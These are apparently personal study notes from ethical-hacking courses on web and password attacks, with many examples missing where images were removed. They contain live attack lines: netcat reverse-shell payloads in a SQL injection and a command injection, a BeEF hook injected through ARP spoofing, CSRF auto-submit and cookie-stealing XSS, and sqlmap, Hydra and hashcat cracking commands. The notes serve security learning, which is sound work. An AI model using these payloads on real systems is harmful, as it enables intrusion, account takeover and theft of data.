<https://www.udemy.com/course/learn-bug-bounty-hunting-web-security-testing-from-scratch/learn/lecture/33920666#overview>

Send repeater requests to the Burp intruder to batch tests…

In the payload you can insert data that you want to test (for example,
data from commandn for command injection)

Example: HTML Tags to test HTML injection

In the **positions** tab you can choose your attack type (like sniper).

With sniper, any instance of “SS” will be replaced with an entry from
your payload

##### Burp intruder: Cluster Bomb

<https://www.udemy.com/course/learn-bug-bounty-hunting-web-security-testing-from-scratch/learn/lecture/33155778#content>

<https://www.udemy.com/course/web-security-and-bug-bounty-learn-penetration-testing/learn/lecture/26170474#search>

Update more than one variable at the same time where each variable can
be attempted with entries from its own defined payload.

**Matching**

Combine this with Intruder \> Options \> Grep – Match to filter attempts
by the error message you’ve seen before.



#### Requests by file path

Whenever you see requests being made to an actual file path it’s worth
investigating.

Best to do this incrementally – trying every path as some paths may not
work but others might

##### Double-down to Bypass filtering checks

In case the program on the server replaces charactes (like double dots)
then we can double those up to get what are testing. Or try doubling up
the forward slash as well.

Think of perl when we replace single apos with double apos.

##### Minimal modification

Always good to try to minimize the amounts of modifications to the
original successful request – in case there’s a check that the filepath
begins or ends a certain way (or contains a certain string)

For example, if all attempts to replace a path (say /var/www/images/)
fail, try keeping that path and adding onto it as there may be a check
that requires “/var/www/images/”.

##### Null-byte

If you suspect that the path you are investigating only expects a
certain file type (image for example) you can add in the filepath you
want to test then add in the percent encoded null-byte character (%00)
followed by the file type expected. This results in only the characters
before the nullbyte character being accepted.

Everything after a nullbyte I omitted from the final value. Think of it
as a comment in SQL injection.

##### Url-encode the path you are testing

After…

…

##### Double-encode to bypass WAF filters!

After…

### Broken Access Control Vulnerabilities

As of 2021 this is the highest ranked security threat – where 94% of
websites are vulnerable.

Key things to check

- Query parameters

- Create multiple accounts to see if you can view one users info from
  the other.

- Use **Burp proxy intercepter** to look for direct references to info
  (for example /downloads/1.txt) and see if you can get other info.

#### Use burp cluster bomb to brute force user/pass

#### Hydra to brute force login page

[Hydra attack on login page
\[bookmark\]](#hydra-dictionary-attack-on-ssh)

#### Ffuf to brute force login page 

***Example from tryhackme – username only***

If you try entering the username **admin** and fill in the other form
fields with fake information, you'll see we get the error **An account
with this username already exists**.

We can use the existence of this error message to produce a list of
valid usernames already signed up on the system by using the ffuf tool
below.

Looking at the request…

The ffuf tool uses a list of commonly used usernames to check against
for any matches.

In the above example, the -w argument selects the file's location on the
computer that contains the list of usernames that we're going to check
exists. The -X argument specifies the request method, this will be a GET
request by default, but it is a POST request in our example.
The -d argument specifies the data that we are going to send. In our
example, we have the fields username, email, password and cpassword.
We've set the value of the username to **FUZZ**. In the ffuf tool, the
FUZZ keyword signifies where the contents from our wordlist will be
inserted (interpolated) in the request. The -H argument is used for
adding additional headers to the request. In this instance, we're
setting the Content-Type to the webserver knows we are sending form
data. The -u argument specifies the URL we are making the request to,
and finally, the -mr argument is the text on the page we are looking for
to validate we've found a valid username.

The ffuf tool and wordlist come pre-installed on the **AttackBox** or
can be installed locally by downloading it
from <https://github.com/ffuf/ffuf>.

**Bruteforcing username and password**

#### Trace http method

Useful to try to retry requests using the TRACE method to gather more
details about the request being mazde.

Using trace allows you to see your request as it comes back from the
server. This allows you to see if something was modified on the response
– fro example ome extra headers.

Example: Using trace on a request we see a new header was added on the
response

That IP is ours when it blocked our request… so we use burp match &
replace to add in a new header where we add in this ip with another
users ip (or maybe the admins). Ooor, if you don’t know their ip, try
localhost so we can simulate being on the webserver itself.

#### Cookie manipulation

Use tools like burp suite to view/modify cookies as they are being used
in a given site.

This is helpful to use with feroxbuster to see which paths are open and
using which cookies.

**Cookie token stealing**

When a cookie has the Secure attribute, the user agent includes the
cookie in an HTTP request only if the request is transmitted over a
secure channel (typically HTTPS). Although seemingly useful for
protecting cookies from active network attackers, the Secure attribute
protects only the cookie’s confidentiality. Forcing the web application
to use TLS or SSL does not force the cookie to be sent over TLS/SSL, so
you still would need to set the Secure attribute on the cookie. Hashing
the cookie provides integrity of the cookie, not confidentiality.

### Insecure session management

#### Logging in as admin by stealing cookies

First, find a borwser extension that allows you to edit cookies.

Try editing suspicious-looking cookies and refreshing the page

For example, suppose you have one called “userid” try setting it to “1”
or if you have “username” try setting it to “admin” and seeing if this
changes who you are logged n as.

#### Discovering CSRF Vulnerabilities



- Find a sensitive form (for example, a form used on a website to update
  a password)

- Copy the html of that form and replace the action with the full URL of
  the site

- Open this HTML and if there’s no validation, you should be able to
  change your paassword (and others).

**Exploiting CSRF with HTML and XSS**

The main is that if you can copy a form onto your web page and the form
functions properly, then next would be to see if you can pre-fill in
some of the fields but hide those fields. Have the user input into other
fields that are fake but seem legit. Then once they submit the form,
their cookie will get sent over as well and their password (for example)
will get updated with the value you pre-determined.

Good tut:
<https://www.udemy.com/course/complete-ethical-hacking-bootcamp-zero-to-mastery/learn/lecture/22280082#overview>

If you can inject that HTML on a webpage, you can also try to inject
some malicious Javascipt to take things a step further..

- Hide the inputs (by changing type to hidden) and assign those input
  values that you know.

- Make sure the form has no visible elements. We can even remove the
  submit button.

- Give the form an id.

- Add in some JS that immediately submits the form

  - \<script\>document.getElementById(‘myform’).submit();\</script\>

### Remote File Inclusion Vulnerabilities

### File Upload vulnerabilities

#### Mitigation

<https://www.udemy.com/course/learn-website-hacking-penetration-testing-from-scratch/learn/lecture/6019138#questions>

## Injection Attacks

A common security exploit that can occur in software development and
runs rampant on the web is the possibility for an attacker to inject
malicious code. We refer to these types of attacks as injection attacks.
<u>Injection attacks can be mitigated with good software development
principles, like validating input and sanitizing data</u>.

### XXS – Cross Site Scripting (html/js injection)

#### XSS Types

**Cross-site scripting**, or **XSS** attacks, are a type of injection
attack where the attacker can insert malicious code and target the user
of the service. XSS attacks are a common method to achieve a session
hijacking. It would be as simple as embedding a malicious script in a
website, and the user unknowingly executes the script in their browser.
The script could then do malicious things like steal a victims cookies
and have access to a log in to a website.



##### Discovery vulnerability with HTML Injection

Being able to inject html into a form field for example and watch it
dsplay on screen somewhere is itself a good sign of more potential
vulnerability and can be it’s own vulnerability altogether.

**Why HTML injection is so dangerous!**

Being able to inject something like this can cause a redirect to a
malicious site

This is super dangerous for spoofing a site with a bad clones instance.

**<u>HTML Injection: Bypassing pre tags</u>**

Upon inputting values, your input may be surrounded with “pre” tags to
ensure HTML isn’t rendered.

You can escape this my prefixing your input with “\</pre\>” – for
example per above) \</pre\>\<h1\>TEST\</h1\>

##### Reflective xss

HTML injection can usually be turned into reflective xss as js is
usually appended to the query parameters when JS is injection into and
input field for example.

This means someone can send this link to victims using your domain and
have their own js execute when a victim loads the link. With this one
can modify the link to write malicious code (say, to grab a cookies).

**Discovering in an link tag**

If you modify href, you can make it href=javascript:alert(0)

**Doscovering in an image**

**Another…**

##### Stored xss

This involves ones being able to inject HTML/JS into a field somehere
where data is usually saved (say, a comment, post, etc) and after
loading the page (post/comment/etc) being able to see the effects of
your injected code.

For example, if you add a comment with a \<b\> tag and you see your
commend as bold when loading the page – then this means that the text
was saved in the db with your injected html! You can further use this to
inject JS and see if JS loads (like an alert) when loading the page. If
so, this means the JS is being stored in the db and when someone loads
your post/comment/etc your JS can be loaded. With this you never have to
send a direct link to someone – you can just wait for you post to be
loaded.

##### DOM based xxs

#### XSS injection techniques

##### Owasp Cheat Sheet!

<https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html>

<https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/>

**Use HTML entity instead of actual characters**

##### Look for multiple places where your test data might be injected

##### Query parameter Injection 

Any time you see a url that ends in an equal sign you know there is room
to pass something in

##### Charcode instead of text

<https://www.browserling.com/tools/text-to-ascii>

<https://charcode98.neocities.org/>

(just google a charchode calculator)

Use charcodes instead of actual text

Paste the charchode in a JS method

**Example**

Gotta add commas though. Good to test breaking client-side filtering.

##### XSS based on technology type

Using tools like wappalizer to see the technologies used by a websites.

You can try injection based on technology type

**Example**: JS template literals

**Example**: Angular JS

##### Bypass single-quote filtering

Trying to inject ‘;alert(22);//

and getting this injected…

^ looks like the dev is escaping our single quotes… time to double-down
and escape their escape.

##### Bypass multi-quote filtering

If you single-quote escapes are being further ecaped by the dev try
another approach to use a single quote like the html entity

##### Bypass case-sensitive filters

Perhaps there’s some filtering but it’s not case-insensitive. Changing
the case might be enough to inject

##### Bypass WAFs that filter ALL html tags

Try using fake tags and using the HTML attributes (like onhover to
inject )

 

Becomes…

**Intruder for HTML injection**

Also, try the Burp Suite Intruder with a payload of HTML tags from a
cheat sheet. Often times some tags aren’t blocked – you just have to
find which ones. (see intruder section).

Further, once you find a vulnerable tag, you can proceed to use the
intruder on the working tag and drop a payload of attributes on that
same weak tag

 

##### Bypassing CSP

^ that prevents inline JS

If you can override this – try setting to…

This will override the secure behavior.

##### Injection via href



##### Indirect injection

If you can’t directly inject JS into the webpage/DOM Element – try
injecting by closing that element and injecting what you can after that
element.

#### XSS Exploitation 

##### Reflected XSS: Sending malicious linke with xss injected in the query string

###### URL Redirection

###### Cookie stealing

^ if that can be injected, then once someone clicks that img they will
(unintentionally) make a request to a malicious URL sending over their
cookie as part of the query string (which can be read from the access
log of the malicious machine).

*Insert into vulnerable input… (this allows us to simulate how the query
string will look – which can be sent to vistims)*

*Querystring…*

*If a hacker is listening on a python simple http server the request
will come in like this*

Now we can use that link to send to victims.

##### Toxssin

<https://github.com/t3l3machus/toxssin>

##### Site redirection

In images

\

If you’re injecting a script tag you can try **onload**.

If you’re injection html/DOM data you can use **onmouseover** or more.

##### Hooking victims using BeeF

###### Initial Setup

Usually user/pass are both “beef”.

Once you start BeeF from the GUI in kali – you’ll see a command prompt –
showing you what you need to inject to hook a victim:

^ this should be replaced with the hackers ip

In the BeeF Web UI you can see any visible users.

###### Hooking a victim..

**Using reflected XSS** you can send a victim an exploited link

^ you can use a link shortener to make it less suspicious.

**Using stored xss** you can just inject the url as a regular
post/comment, etc

**Using ARP Spoofing with Bettercap to inject the beef hook**

<https://www.udemy.com/course/learn-ethical-hacking-from-scratch/learn/lecture/5369646#content>

Save the following into a JS file

*var* imported = document.createElement('script');

imported.src = 'http://YourIP:3000/hook.js';

document.head.appendChild(imported);

Like so:

Then inject this payload into the hstshijack caplet

nano /usr/local/share/bettercap/caplets/hstshijack.cap

Add in the payload section…

payloads \*:/root/inject_beef.js

Start bettercap

bettercap -iface eth0 -caplet spoof.cap

Start hstshijack caplet to spoof and inject js

hstshijack/hstshijack

###### Running commands on victims

**SypderEye** – used to take screenshots of the victims browser.

**Alert** – used to send an alert popup.

**Redirect**

**Stealing creds with a fake re-auth popup (pretty theft)**

### SQL Injection

<https://portswigger.net/web-security/sql-injection>

Another type of injection attack is a **SQL, or S-Q-L, injection
attack**. Unlike an XSS that targets a user, a SQL injection attack
targets the entire website if the website is using a SQL database.
Attackers can potentially run SQL commands that allow them to delete
website data, copy it, and run other malicious commands.

#### Cheat Sheet

<https://portswigger.net/web-security/sql-injection/cheat-sheet>

#### Retrieving hidden data

#### Subverting application logic

#### File Upload vulnerability

<https://www.udemy.com/course/learn-website-hacking-penetration-testing-from-scratch/learn/lecture/6019466#overview>

**Protection again unrestricted file upload attacks**

<https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload>

**Creating a backdoor via file upload**

(assuming you have two columns being retrieved and you are using PHP)

UNION SELECT ‘\<?passthru(“nc -e /bin/sh \<my_ip\>
\<my_port\>”);?\>’null into outfile ‘/tmp/reverse.php’\>’

The idea would be to get that netcat command on the target machine .



**“e” switch Requires traditional netcat install**

#### Examining the database

#### Blind SQL injection vulnerabilities

<https://portswigger.net/web-security/sql-injection/blind>

Only returns “a” (or whatever) of the table exists;

Is pass len \> 1

Do for each number untilwe know how long the pass is.

#### Union Attack (Retrieving data from other database tables)

<https://portswigger.net/web-security/sql-injection/union-attacks>

#### Using SQLMap

<https://www.youtube.com/watch?v=2YD4vygeghM>

<https://www.youtube.com/watch?v=IGIA7eSMxs8>

^ helpful to know if a form is injectable.

Alternatively, you can save a login request (say from burp) and
reference that file instead of passing in a url

**Get dbms**

sqlmap -u \<url\> --dbs

or…

**Get current user**

sqlmap -u \<url\> –-current-user

**Get current database**

sqlmap -u \<url\> –-current-db

**Get table names once you have current database name**

sqlmap -u \<url\> –-tables -D \<database_name\>

Or…

**Get table columns of current database & table**

sqlmap -u \<url\> –-columns -T \<table_name\> -D \<database_name\>

**Get all contents of a table of current database & table**

sqlmap -u \<url\> -T \<table_name\> -D \<database_name\> --dump



Or…

**Get access to OS shell**

sqlmap -u \<url\> -T \<table_name\> -D \<database_name\> --os-shell

**Get access to SQL shell**

sqlmap -u \<url\> -T \<table_name\> -D \<database_name\> --os-shell

#### Security and mitigation

**Parameter binding** is very important and here’s why:

### OS Command Injection

#### Using commix: Automated OC command injection tool

<https://www.kali.org/tools/commix/>

Description: Automated All-in-One OS Command Injection and Exploitation
Tool This package contains Commix (short for \[comm\]and \[i\]njection
e\[x\]ploiter). It has a simple environment and it can be used, from web
developers, penetration testers or even security researchers to test web
applications with the view to find bugs, errors or vulnerabilities
related to command injection attacks. By using this tool, it is very
easy to find and exploit a command injection vulnerability in a certain
vulnerable parameter or string. Commix is written in Python programming
language. Description-md5: 8989487b3b52055bafe3885fc4e275ad

<u>Usage</u>

commix
--url="http://192.168.0.23/commix-testbed/scenarios/user-agent/ua(eval).php"
--level 3

#### Cheat sheets

#### General usage

<https://hackersonlineclub.com/command-injection-cheatsheet/>

**Input**

**Request**

#### Injecting a backdoor with netcat

**Value to input…**

\<input\>; nv -e /bin/sh \<hacker_ip\> \<hacker_port\>

**Hacker’s machine – listening with netcat on same port**

**Bypass filtering**

In case there was a check for semicolon, you could instead use a pipe
symbol or && or any other variant.

#### Blind injection

If you aren’t able to get the output printing in the response, try blind
injection where you can delay the response with something like the sleep
command. Also good to do on input fields.

Note: spaces should be replaced with “+” since valurd nrrd to be
encoded.

#### Blind injection via asynchronous thread

It’s possible that a command you inject is indeed running on the target
machine but you don’t see the output (blind) and you don’t see the
effect from the target machine (example, the sleep command isn’t causing
any delays in the response). This could be because the architecture of
the target machine processes the injected command as an asynchronous
task (think node js for example). So the response comes back as usual
even though the command executed on the target machine.

In this case, try running a command like ping or mslookup on the target
machine and ping a server that you own. Then you can check the logs on
your server to see if you are getting a ping hits (icmp packets). Then
you know that the command machine must be executing on the target
machine.

**Advanced – see output of commands as a subdomain**



Logs:

## Password Attacks

### Types of Brute-Force Password Attacks

There is no getting around it, passwords are the most secure common
safeguards we have to prevent unauthorized account access.
Unfortunately, our passwords may not be as secure or strong as they
should be. A common attack that occurs to gain access to an account is a
password attack. Password attacks utilize software like password
crackers that try and guess your password.

#### Simple Brute-force

A common password attack is a **brute force attack**, which just
continuously tries different combinations of characters and letters
until it gets access. Since this attack requires testing a lot of
combinations of passwords, it usually takes a while to do this. Have you
ever seen a CAPTCHA when logging into a website? CAPTCHAs are used to
distinguish a real human from a machine. They ask things like, are you
human, or are you a robot, or are you a dancer? In a password attack, if
you didn't have a CAPTCHA available, an automated system can just keep
trying to log into your account until it found the right password
combination. But with a CAPTCHA, it prevents these attacks from
executing.

#### Dictionary (wordlist)

Another type of password attack is a **dictionary attack**. A dictionary
attack doesn't test out brute force combinations like ABC1 or capital
ABC1. Instead, it tries out words that are commonly used in passwords,
like password, monkey, football. The best way to prevent a password
attack is to utilize strong passwords. Don't include real words you
would find in a dictionary and make sure to use a mix of capitals,
letters, and symbols. Without any fail-safes like CAPTCHAs or other
account protections, it would take a typical password cracker
application about one minute to crack a password like sandwich. But
substantially longer to crack something like what you see here, spelled
s, &, n, capital D, w, h, number 1, c, then another h. See how that's
the same but also way harder to crack?

#### *Reverse brute force attacks*

***Reverse brute force attacks*** are similar to dictionary attacks,
except they start with a single credential and try it in various systems
until a match is found.

#### *Credential stuffing*

*Credential stuffing* is a tactic in which attackers use stolen login
credentials from previous data breaches to access user accounts at
another organization. A specialized type of credential stuffing is
called *pass the hash*. These attacks reuse stolen, unsalted hashed
credentials to trick an authentication system into creating a new
authenticated user session on the network.

#### Rainbow Tables

That brings us to the topic of **rainbow tables**. Don't be fooled by
the colorful name. These tables are used by bad actors to help speed up
the process of recovering passwords from stolen password hashes. A
rainbow table is just a pre-computed table of all possible password
values and their corresponding hashes. The idea behind rainbow table
attacks is to trade computational power for disk space by pre-computing
the hashes and storing them in a table. An attacker can determine what
the corresponding password is for a given hash by just looking up the
hash in their rainbow table.

This is unlike a brute force attack where the hash is computed for each
guess attempt. It's possible to download rainbow tables from the
internet for popular password lists and hashing functions. This further
reduces the need for computational resources requiring large amounts of
storage space to keep all the password and hash data. You may be
wondering how you can protect against these pre-computed rainbow tables.
That's where salts come into play. And no, I'm not talking about table
salt. A password salt is additional randomized data that's added into
the hashing function to generate the hash that's unique to the password
and salt combination. Here's how it works. A randomly chosen large salt
is concatenated or tacked onto the end of the password. The combination
of salt and password is then run through the hashing function to
generate hash which is then stored alongside the salt. What this means
now for an attacker is that they'd have to compute a rainbow table for
each possible salt value. If a large salt is used, the computational and
storage requirements to generate useful rainbow tables becomes almost
unfeasible.

### Brute Force and Dictionary Attacks (Password/Hash cracking)

These are some common brute forcing tools:

- Aircrack-ng

- Hashcat 

- John the Ripper

- Ophcrack

- THC Hydra

#### Creating a wordlist (using crunch)

<https://www.udemy.com/course/learn-website-hacking-penetration-testing-from-scratch/learn/lecture/6021338#overview>

^ the “I wordlist” in the pic should be an “-o” for output.

Use the “@” to mean “all possible characters” – meaning any character
can take that place.

#### Wordlist resources

<https://github.com/danielmiessler/SecLists>

<https://weakpass.com/wordlist>

<https://github.com/berzerk0/Probable-Wordlists>

<http://www.openwall.com/mirrors/>

<http://www.outpost9.com/files/WordLists.html>

<http://www.vulnerabilityassessment.co.uk/passwords.htm>

<http://packetstormsecurity.org/Crackers/wordlists/>

<http://www.ai.uga.edu/ftplib/natural-language/moby/>

<http://wordlist.sourceforge.net/>

<ftp://ftp.openwall.com/pub/wordlists/>

#### THC Hydra cracking

Use –L flag to specify a wordlist of usernames

Or use a lowercase ‘-l’ if you alreadyknow the username

Then use ‘**-P**’ flag for password word list or a lowercase “p” (-p) to
specify a single password you want to try.

**Supported Services**

Hydra’s man page has a section of “Supported Services” which outline the
argument to pass in for a given service type.

##### Hydra dictionary attack on ssh

hydra \<host\> ssh -L \<usernamelist\> -P \<passwordlist\>

My vm (fail2ban initially blocked blocked this after the 5th
attempt)

##### Hydra attack on login page

**un** – fill this in with the input name of the username field

**pw** – fill this in with the input name of the password field

**fm** – fill this is with the input name of the submit button.

**Form Simple**

hydra \<host\> \<type\> “path:query:failmsg” -L \<usernamelist\> -P
\<passlist\>

**Form Full**

hydra host type “path:un=^USER^&pw=^PASS^&fm=submit:failmsg” -L
\<wordlist_users\> -P \<wordlist_passwords\>

^ “failmsg” is the message that appears on screen when a failed login
attempt occurs. Hydra will scan for this to know whether the attempt was
successful or not.

^ type is “http-form-post” for forms using a post request -could use
http-get-form for GET requests.

**Example**

hydra 192.168.1.11 http-form-post
“/bWAPP/login.php:login=^USER^&password=^PASS^&form=submit:Invalid
credentials or user not activated” -L users.txt -P passwords.txt

^ Can get the actual request from Chrome DevTools network tab or from
Burp suite.

**Note**: Notice (above) after the final caret “^” where we plug in the
password – we still must add in the rest of the url that is part of a
particular request. This is usually the submit button and its name
attribute on the input element.

login=^USER^&password=^PASS^

^ why do we use “login” and “password” query params?

*Because that’s whats in input names*

**Note on the “incorrectmessage”.** After the colon you can specify the
message you’re looking for (fail message by default).

The “F” can be used to pass in the fail message or the “P” can be used
to add in the success message (if any).

*Passing in a cookie*

#### Hashcat :Installing/Using \[brute force and dictionary\]

<https://www.youtube.com/watch?v=EfqJCKWtGiU>

<https://linuxhint.com/hashcat-tutorial/>

<https://online-it.nu/how-to-crack-wpa-wpa2-hash-using-hashcat/>

**Basic usage**

.\hashcat.exe -m 3200 '$2a$06$7yoU3Ng8dHTXp…' .\rockyou.txt

You can display the cracked password with the “show” command or by
running the same command again, all cracked hashes will be stored in the
“hashcat.potfile” in the hashcat folder.

**Helpful Links**

- Pcap to hccapx convert (file upload)

  - <https://hashcat.net/cap2hashcat/>

- Hashcat executables

  - <https://github.com/hashcat/hashcat>

- Hashcat modes

  - <https://hashcat.net/wiki/doku.php?id=example_hashes>

- Download pcap to hccapx executables

  - <https://github.com/hashcat/hashcat-utils/releases>

- Wordlists

  - <https://weakpass.com/wordlist>

  - 

Kali has the rockyou wordlist stored bydefault

##### \[Windows\] Pcap tp hccapx files

=== pcap to hccapx windows

Tutorial: <https://youtu.be/_jzZ875KC5M>

<https://github.com/hashcat/hashcat-utils/releases>

=== dir structure

dir\\

-\> pcap-covert.ps1

-\> cap2hccapx.exe

-\> merged\\

1.  Create dir

2.  Create Powershell script and place in working dir

    1.  <https://pastebin.com/crWJ5PF4>

3.  Download cap2hccapx.exe and place in working dir

    1.  <https://github.com/hashcat/hashcat-utils/releases>

    2.  <https://github.com/hashcat/hashcat-utils/releases/download/v1.9/hashcat-utils-1.9.7z>

    3.  curl -O
        https://github.com/hashcat/hashcat-utils/releases/download/v1.9/hashcat-utils-1.9.7z

4.  Place any pcap files in working dir

5.  Command to run in cmd: powershell -ExecutionPolicy ByPass -File
    .\pcap-convert.ps1

    1.  individual hccapx files will exists in working dir and the sum
        of all will be placed in merged folder named multi.2500 (This is
        our "multli file" - where the number is the mode the file needs
        to run in hascat as denoted by the "m" flag when running in
        hashcat.

    2.  Any files with issues will be placed in the incomplete.txt file

6.  Download Hashcat binaries

    1.  <https://hashcat.net/hashcat/>

    2.  Unzip binaries and cd into dir where hashcat.exe file is

    3.  Copy your newly created "multi file" (multi.2500) into the for
        where hashcat.exe is

7.  While in dir where hashcat.exe is... copy a wordlist - for example
    "rockyou.txt"

8.  Run in hashcat dir via cmd

    1.  hashcat.exe -m 2500 multi.2500 rockyou.txt

    2.  Note above we are specifying the "rockyou" dictionary

**Rockyou wordlist \[MAGNET\]**:
<https://chris.partridge.tech/2021/rockyou2021.txt-a-short-summary/#download>

**Rockyou wordlist \[ZIP\]**:
<https://mega.nz/folder/aDpmxCiD#f_pSJ0vV698-Ev1mbyYNAQ>

**HashCat Tutorial:**

<https://linuxhint.com/hashcat-tutorial/>

<https://online-it.nu/how-to-crack-wpa-wpa2-hash-using-hashcat/>

**<u>Troubleshooting:</u>**

- Drivers may be required

  - AMD:
    <https://www.guru3d.com/files-details/amd-radeon-adrenalin-21-10-1-driver-download,6.html>

  - 

<https://github.com/xfox64x?tab=repositories>

#### Cain & Abel \[brute force and dictionary\]

Also used to perform MIM attacks on RDP sessions on systems that used
self-signed certs.

#### Aircrack-ng (CPU-Only)

**Using aircrack-ng and a wordlist**

*Form*

aircrack-ng \<capture_file\> -w \<wordlist\>

*Example:*

aircrack-ng wpa_handshakes.cap -w wordlist.txt

#### John the ripper

##### Cracking linux password

**Steps 1: Unshadow passwords**

**Step 2 : Crack and show pass**

*Single-crack mode (default)*

jonn \<passwords.txt\>

Note: In this mode, john will try to crack the password using the
login/GECOS information as passwords.

*Wordlist mode*

jonn -wordlist:\<wordlist.txt\> \<passwords.txt\>

*Incremental mode*

jonn -incremental:ALL \<passwords.txt\>

This is the most powerful mode. John will try any character combination
to resolve the password. Details about these modes can be found in the
MODES file in john's documentation, including how to define your own
cracking methods.

#### OPHCrack

## Network Attacks

### Changing your network information

#### MAC Spoofing

**<u>Using the ip command</u>**

*Note: blue fields are to be updated with real info.*

**<u>Using ifconfig command</u>**

1.  Ifconfig has a ‘down’ option which can be used to temporarily
    disable the interface

2.  change mac address (hardware address - hwadr)

    1.  MAC addr must begin with “00”?

3.  finally, bring the interface back up.

**Format**:

